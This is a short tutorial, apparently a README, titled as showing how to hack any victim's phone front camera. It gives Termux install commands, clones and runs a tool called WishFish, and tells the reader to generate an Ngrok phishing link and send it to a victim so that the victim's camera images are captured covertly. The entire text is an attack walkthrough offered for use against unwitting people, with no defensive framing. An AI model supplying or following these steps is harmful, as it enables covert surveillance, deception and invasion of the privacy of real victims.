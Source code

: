 
-Today I Will Show you how to Hack any Victim's phone Front Camera 
-So lets get started 
-Follow this all comands to do this 
-So for this you have to first install termux from android 
-After installing termux from playstore 
-Type all this comands 
-First you have to update your termux 
-For updating your termux type

$ apt update && apt upgrade

$ pkg install php

$ pkg install openssh

$ apt install git

$ git clone https://github.com/kinghacker0/WishFish

$ cd WishFish

$ bash wishfish.sh

-Now simply Turn on your Hotspot.

-After turning on your Hotspot choose option-2 (Ngrok)

-Now you will see there is a link generated. 
 Now simply send this link to Victim, when the victim open this link, in your Termux you will see that (Cam file received)

-After that open your phone’s gallery, and then you will see the captured images by the victims Phone

☆ So by this easy steps you can easly hack any victim's Front camera
